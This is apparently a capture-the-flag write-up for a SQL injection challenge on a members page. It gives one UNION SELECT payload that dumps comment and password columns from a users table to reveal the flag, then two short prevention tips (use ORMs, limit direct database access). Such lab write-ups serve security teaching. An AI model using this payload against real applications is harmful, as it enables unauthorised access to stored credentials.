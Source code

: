# 02_members_sql_injection

### Instructions

On the same page we type following sql query
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users;`
Last user has instruction for getting valid flag

### How to prevent

Use ORMs.
Avoid providing users with direct access to the database to prevent unintended interactions.
